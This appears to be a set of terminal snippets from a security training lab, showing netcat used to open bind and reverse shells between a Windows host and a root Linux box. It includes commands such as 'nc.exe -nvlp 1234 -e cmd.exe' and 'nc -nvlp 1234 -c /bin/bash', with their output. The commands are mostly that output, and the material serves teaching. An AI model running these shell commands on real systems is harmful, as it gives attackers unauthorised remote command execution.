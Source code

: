 ```
 Volume Serial Number is AEDF-99BD

 Directory of C:\Users\Administrator\Downloads

04/16/2023  02:57 AM    <DIR>          .
04/16/2023  02:57 AM    <DIR>          ..
04/16/2023  02:57 AM            59,392 nc.exe
               1 File(s)         59,392 bytes
               2 Dir(s)   9,288,757,248 bytes free
```

```
C:\Users\Administrator\Downloads>nc.exe -nvlp 1234 -e cmd.exe
listening on [any] 1234 ...
connect to [10.0.24.157] from (UNKNOWN) [10.10.21.3] 46968

```

```
-c, --sh-exec <command>    Executes the given command via /bin/sh
-c, --sh-exec <command> 通过 /bin/sh 执行给定的命令
```

```
root@attackdefense:/usr/share/windows-binaries# nc -nvlp 1234 -c /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

```
C:\Users\Administrator\Downloads>nc.exe -nv 10.10.21.3 1234
(UNKNOWN) [10.10.21.3] 1234 (?) open
ls
enumplus
exe2bat.exe
fgdump
fport
klogger.exe
mbenum
nbtenum
nc.exe
plink.exe
radmin.exe
vncviewer.exe
wget.exe
whoami.exe
pwd
/usr/share/windows-binaries
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root

```

```
root@attackdefense:/usr/share/windows-binaries# nc -nvlp 1234 -c /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.24.157.
Ncat: Connection from 10.0.24.157:49326.

```